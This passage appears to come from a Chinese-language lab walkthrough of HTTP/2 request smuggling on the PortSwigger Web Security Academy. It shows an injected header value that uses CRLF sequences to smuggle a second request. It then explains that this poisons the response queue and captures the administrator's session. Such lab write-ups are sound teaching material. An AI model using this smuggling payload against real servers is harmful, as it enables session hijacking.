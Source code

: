[![](assets/1705287960-530726b869127814c97350fc14bf7a90.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104527-7a352eb0-b02b-1.png)  
随后使用"Inspector"在请求的末尾加入一个任意的头信息

```bash
#Name
foo

#Value
bar\r\n
\r\n
GET /x HTTP/1.1\r\n
Host: YOUR-LAB-ID.web-security-academy.net
```

[![](assets/1705287960-441b4f3c14731618d29807f693b2caa3.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104547-8601e184-b02b-1.png)  
随后发送请求，前端服务器在降级期间会将\\r\\n\\r\\n附加到标头的末尾，而这实际上会将走私的前缀转换为完整的请求，从而毒化响应队列

[![](assets/1705287960-f50f63c6d17d60d192b52397eb36e030.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240111104558-8cf175ae-b02b-1.png)  
随后我们可以捕获到 administrator 的 Session
